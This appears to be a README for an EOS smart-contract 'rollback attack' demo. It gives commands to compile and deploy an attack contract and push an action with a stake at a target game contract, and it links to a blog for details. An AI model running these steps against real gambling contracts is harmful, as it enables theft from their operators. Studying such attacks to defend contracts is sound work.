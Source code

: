 # Run 'rollback' demo
EOS Rollback回滚攻击实例
```
//mac
npm install -g js4eos
//ubuntu
sudo npm install -g js4eos
js4eos wallet create
//请一个一个导入下面用到的账号的私钥
js4eos wallet import your_private_key
js4eos compile -o rollback/rollback.wasm rollback/rollback.cpp
js4eos compile -g rollback/rollback.abi rollback/rollback.cpp
js4eos set contract contractaccount rollback
#assign eosio.code permission before push action
js4eos push action contractaccount dream '[ "targetgamecontract", "1.0000 EOS", "game memostring" ]' -p contractaccount
#上面的各种账号请更改为你的真实账号
```
如果使用cleos程序，只需将上面的js4eos替换为cleos即可<br>

如果你在linux/mac下且有本地nodeos可以使用run.sh脚本一键执行
```
#install js4eos if not
sudo npm install -g js4eos
#run
./run.sh
```
# details(详情)
<a href="https://blog.csdn.net/ITleaks/article/details/84317171">
https://blog.csdn.net/ITleaks/article/details/84317171
</a>